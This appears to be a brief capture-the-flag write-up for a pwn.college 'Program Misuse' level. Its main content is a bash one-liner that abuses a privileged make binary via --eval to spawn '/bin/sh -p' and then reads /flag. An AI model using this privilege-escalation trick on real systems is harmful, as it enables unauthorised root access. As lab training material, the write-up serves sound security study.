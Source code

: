 ```yaml
---
layout: post
title: "Level 26 - Program Misuse"
date: 2024-5-4 12:00:00 -0000
categories: [pwn college, program misuse]
---
```


```bash
COMMAND='/bin/sh -p'
make -s --eval=$'x:\n\t-'"$COMMAND"
cat /flag
```